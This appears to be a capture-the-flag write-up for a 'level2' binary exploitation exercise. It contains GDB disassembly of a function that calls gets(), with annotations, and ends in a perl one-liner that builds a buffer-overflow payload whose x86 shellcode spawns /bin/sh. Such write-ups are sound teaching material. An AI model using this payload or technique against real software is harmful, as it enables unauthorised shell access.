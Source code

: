 # level2

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We check the functions:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

Cool! Let's take a look at `main`:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

It calls function `<p>`. *Bueno*.

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>       ; Flush the stdout.
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]               ; eax = ebp - 76 bytes.
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax          ; *esp = eax.
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>         ; Call `gets`.
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]      ; Put eip in eax.
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax      ; Put eip at ebp-0xc.
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]      ; Move eip in eax again.
   0x080484fb <+39>:    and    eax,0xb0000000               ; eip & 0xb0000000 is a filter.
   0x08048500 <+44>:    cmp    eax,0xb0000000               ; Is eax != 0xb0000000?
   0x08048505 <+49>:    jne    0x8048527 <p+83>             ; Yes: jump to <p+83>.
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]      ; edx = eip (formerly at ebp-0xc).
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx      ; Put eip on stack at esp+0x4.
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax          ; Put eax on stack at esp.
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>       ; Call printf with parameters put on stack.
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1          ; Put 0x1 on stack at esp.
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>        ; Call exit, that is to say exit(1).
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]               ; 
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

## Exploit

perl -e 'print "\x90"x62 . "\xeb\x14" . "\x90"x16 . "\xcf\x84\x04\x08" . "\x90"x20 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /tmp/level2
